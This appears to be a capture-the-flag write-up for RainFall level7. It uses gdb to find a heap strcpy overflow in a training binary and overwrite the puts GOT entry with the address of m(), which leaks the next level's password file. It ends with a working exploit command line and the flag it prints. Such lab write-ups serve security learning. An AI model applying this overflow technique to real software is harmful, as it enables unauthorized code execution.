


1. testing the program with 0 or 1 argument : segfault. 2 arguments : output `~~`
So the program should probably take 2 arguments

2. first few commands:
```
gdb ./level7
set disassembly-flavor intel
info functions
```

We can see that there is a main and f functions.
`disas main` -> the m function is not called
`disas m` -> it prints a string located at address **0x8049960**, meaning the pointer is global.

3. let's analyze the main:

    - interesting things :
        * 2 calls to strcpy, which we know is vulnerable to buffer overflow
        * 4 calls to malloc : 1st located on the stack at `esp+0x1c`; the 4 bytes memory location this pointer points to is then set to **0x1**, and the next memory location is set to the result of another malloc of 8 bytes. This seems like a struct allocation of memory. The third call to malloc is located on the stack at **esp+0x18** with the same kind of structure (but the first 4 bytes memory location is set to **0x2**)
        * There is a `fopen` call with arguments `/home/user/level8/.pass` and `r` : it opens the file we want and returns a stream to this file in $eax!
        * Then fgets is called with arguments : a global pointer whose value is **0x8049960** => **The same one which is printed in the m() function!**, 0x44 bytes to be filled into this buffer, and the resulting fd of teh `fopen` function call! => so the program opens the file we want, fgets read data from this file (i.e. the flag) and stores it in a buffer at memory location **0x8049960**. Then it calls the puts function on a random string.

    - What we have to do : call the `m()` function after `fgets` so that it will print out the buffer where the content of the `.pass` file will be located. We have to call it instead of `puts`


4. Let's analyze the stack before the call to `fopen`, with random args : `./level7 coucou test`

    - First let's see the value of our 2 struct pointers on the stack :

    

    - Now let's look at the 20 words (=4bytes) memory values, starting at the memory location pointed to by our first struct pointer : **0x0804a008**

    

    - So we can derive from the diagram above :
        * the first `strcpy` copies `argv[1]` at location **0x0804a018**
        * The second `strcpy` copies `argv[2]` at location **0x0804a038**
        * Thanks to the 1st strcpy, we could override the value of the 2nd pointer (**0x0804a038**) by the memory location of the `puts` address in the GOT. Then, the 2nd strcpy will write the second argument, which would be the address of function `m()` to the memory location pointed to by the modified ptr : the puts address in the GOT! At line <214>, when the programm enters the `puts@plt`, it will jump not to the real puts function, but to the m() function!

    - Getting the address of the puts function in GOT :

    ```
    (gdb) x/3i 0x8048400
    0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928
    0x8048406 <puts@plt+6>:	push   0x28
    0x804840b <puts@plt+11>:	jmp    0x80483a0
    ```

    The address of the puts() function in GOT is at **0x8049928**

    - Deriving the offset:

    From the diagram above, we can see that the value of the second pointer is at address **0x0804a02c**.
    The value where the first argument will be copied is at address **0x0804a018**
    `0x2c - 0x18 = 0x14 or 20 bytes`

    - Payload and output:

    Conclusion : argv[1] will contain 20 random characters to arrive at the memory locaiton of the 2nd pointer.
    Then there is the memory address of the puts funciton in GOT table.
    argv[2] will contain the address of our m() function

    ```
    level7@RainFall:~$ ./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    - 1602058363
    ```
